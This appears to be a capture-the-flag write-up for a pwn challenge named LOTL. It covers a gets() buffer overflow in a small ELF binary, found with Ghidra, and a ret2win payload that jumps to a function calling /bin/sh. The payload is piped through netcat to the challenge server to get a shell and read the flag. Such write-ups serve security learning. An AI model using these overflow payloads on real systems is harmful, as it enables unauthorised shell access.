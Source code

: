 # LOTL
Save the planet!

Well, we should then better LOTL and use what we have, right?

```
nc 46.101.107.117 2102
```

Get a shell and read the flag.

[lotl](lotl)

---

Let's see what we got:
```
$ file lotl
lotl: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=05ea252a13b095c8275884ab0350d0f6848f4e9c, not stripped

$ ./lotl
Welcome! Please give me your name!
> Jan
Hi Jan, nice to meet you!
```

The challenge type is `pwn`, so let's try a bit longer name:
```
4 ./lotl
Welcome! Please give me your name!
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hi aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, nice to meet you!
Segmentation fault
```

Here we go, `segfault`. How can we exploit it?

## Static analysis
Looking what's inside using [Ghidra](https://ghidra-sre.org/):

```
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  ignore_me_init_signal();
  printf("Welcome! Please give me your name!\n> ");
  gets(local_28);
  printf("Hi %s, nice to meet you!\n",local_28);
  return 0;
}
```

Here is the vulnerability, reading a user input into small buffer using `gets`.

There is one more useful method:
```
void profit(void)
{
  system("/bin/sh");
  return;
}
```

The idea is simple, overflow the buffer and jump into `profit` method.

At first, we need `profit` address:
```
$ objdump -t lotl | grep profit
000000000040086d g     F .text	00000013 profit
```

## Smashing the stack
We need to skip 32 (buffer size) + 8 (`rbp`) bytes. Then comes the profit `address`:
```
$ echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x6d\x08\x40\x0\x0\x0\x0\x0" > payload
```

I used `gdb` to make sure `profit` is indeed getting called.

Next, we have 2 options:
- Append a predefined shell command into our payload
- Create an interactive shell

### Option 1: Using predefined shell commands
Let's add `ls` command to our payload:
```
$ echo ls >> payload
$ ./lotl < payload
Welcome! Please give me your name!
> Hi AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ@, nice to meet you!
bochs-2.6.11  bochs-2.6.11.tar.gz  CAT  data  data_storage  lotl  payload  payload.bin  tool.gif
Segmentation fault
```

Great, the command was executed!

### Option 2: Using interactive shell
This is more cool. Use the original payload without any extra commands and execute it like this:
```
$ (cat payload; cat) | ./lotl 
Welcome! Please give me your name!
> Hi AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ@, nice to meet you!
ls
bochs-2.6.11  bochs-2.6.11.tar.gz  CAT  data  data_storage  lotl  payload  payload.bin  tool.gif
pwd
/home/kali/macos
..
```

Finally, replace the local binary with the _netcat_ call:
```
$ (cat payload; cat) | nc 46.101.107.117 2102
Welcome! Please give me your name!
> Hi CCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ@, nice to meet you!
ls
challenge1
flag
ynetd
cat flag
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}
```

_(For some reason I had to adjust the payload offset by -8)_

The flag is `he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}`
